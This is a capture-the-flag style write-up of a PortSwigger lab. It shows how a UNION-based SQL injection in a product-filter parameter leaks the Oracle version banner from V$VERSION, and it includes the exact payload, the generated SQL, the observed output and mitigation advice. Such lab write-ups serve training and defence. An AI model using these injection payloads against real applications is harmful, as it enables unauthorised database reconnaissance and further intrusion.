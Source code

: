 # SQL injection attack, querying the database type and version on Oracle

![Lab banner – PortSwigger Practitioner level](1.png)

---

## Executive Summary

In the PortSwigger Web Security Academy lab “SQL injection attack: querying the database type and version (Oracle),” we demonstrated that an attacker can leak detailed version strings of the underlying Oracle Database by appending a crafted `UNION SELECT` clause to a product-search request.
Because the application simply tacks raw query-string text onto its `WHERE` clause, we were able to join the results of `V$VERSION` to the normal product list and have the database hand back its own build information.

---

## Description

![Lab banner – PortSwigger Practitioner level](2.png)

## Why This Matters to You

* **Targeted exploitation:** Exact version numbers allow attackers to map your database against public CVEs and selectively fire exploits that are known to work.
* **Defence evasion:** Knowledge of edition (XE / SE / EE) and patch level helps adversaries predict which auditing or security features are enabled.
* **Recon → privilege escalation:** Version leakage often forms one step in chained attacks that culminate in remote code execution or full data exfiltration.

---

## Step-by-Step Walk-Through

| # | What we did (payload shown URL-encoded when required)                                                               | Intended SQL generated by the app                                                          | What actually happens & why                                                                                                                              |
| - | ------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------ | -------------------------------------------------------------------------------------------------------------------------------------------------------- |
| 1 | **Confirmed vulnerability**<br>Baseline request: `/filter?category=Pets`                                            | `SELECT * FROM someTable WHERE category='Pets'`                                            | Normal list of “Pets” products returned.                                                                                                                 |
| 2 | **Counted columns** with `ORDER BY` (or `UNION NULL,NULL`) – found **2 columns**.                                   | —                                                                                          | Knowing column count is essential for a valid `UNION`.                                                                                                   |
| 3 | **Found text-compatible columns** by injecting `UNION 'a','b'` – discovered both columns accept strings.            | —                                                                                          | Confirms which positions can display arbitrary text.                                                                                                     |
| 4 | **Queried Oracle version** with<br>`/filter?category=Pets'/**%20**UNION%20SELECT%20'a',banner%20FROM%20v$version--` | `SELECT * FROM someTable WHERE category='Pets' UNION SELECT 'a', banner FROM v$version--'` | The second column now prints the full Oracle banner (e.g., `Oracle Database 19c Enterprise Edition Release 19.0.0.0.0 - Production`). Lab flags success. |

---

## Observable Output

| Test / Payload                             | Visible result                                   | What it proved                          |
| ------------------------------------------ | ------------------------------------------------ | --------------------------------------- |
| Baseline (`category=Pets`)                 | Normal product grid                              | Application behaves as intended.        |
| `UNION 'a','b'`                            | Page prints “a  b”                               | Column count & text placement verified. |
| `UNION SELECT 'a',banner FROM v$version--` | Oracle version banner strings appear on the page | **Database disclosure** confirmed.      |

---

## Mitigation Guidance

1. **Use parameterised queries / prepared statements.** Prevents user input from changing SQL structure.
2. **Restrict account privileges.** The web-app user should not be able to read `V$VERSION` or other system views.
3. **Employ input validation & escaping libraries.** Centralise sanitisation logic instead of ad-hoc concatenation.
4. **Mask error & banner output.** Never reflect database metadata back to the client.
5. **Routine patching.** Ensure that even if version info leaks, the revealed build is fully up-to-date.

---

## Conclusion

By chaining basic UNION-based SQL injection techniques we extracted the exact Oracle build string—information invaluable to any attacker planning further compromise. Eliminating string-concatenated SQL and enforcing least-privilege DB roles are top-priority fixes.
